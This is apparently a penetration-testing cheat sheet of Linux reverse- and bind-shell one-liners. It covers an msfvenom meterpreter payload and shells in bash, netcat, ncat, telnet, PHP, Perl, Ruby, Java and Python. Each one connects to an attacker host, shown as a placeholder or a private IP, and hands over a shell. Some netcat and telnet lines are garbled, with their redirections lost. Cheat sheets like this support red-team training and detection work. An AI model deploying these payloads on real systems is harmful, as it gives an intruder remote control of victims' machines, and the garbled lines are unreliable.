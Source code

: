 # Linux

## Binary

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf
```

## Bash

```bash
0<&196;exec 196<>/dev/tcp/192.168.1.101/80; sh <&196 >&196 2>&196
```

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## PHP

```bash
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Netcat

### **Bind Shell**

```bash
nc -nvlp 5555 -e /bin/bash #(victim)
nc 192.168.1.101 5555 #(attacker)
```

### **Reverse Shell**

```bash
nc -nlvp 5555 #(attacker)
nc 192.168.1.101 5555 -e /bin/bash #(victim)
```

### **With -e Flag**

```bash
nc -e /bin/sh ATTACKING-IP 80 #victim?
/bin/sh | nc ATTACKING-IP 80 #attacker?
```

### **Without -e Flag**

```bash
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

### Another Good Resource

* [Netcat Reverse Shell from O'Reilly](https://www.oreilly.com/library/view/hands-on-red-team/9781788995238/b76e6441-5999-45e4-949e-bd332cb21cce.xhtml)

## Ncat \(Modern Version of Netcat\)

### **Bind**

```bash
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl #victim?
ncat -v 192.168.1.103 5555 --ssl #attacker?
```

### Telnet

```bash
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p #victim?
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443 #attacker?
```

### **Perl**

```bash
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### **Ruby**

```bash
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### **Java**

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

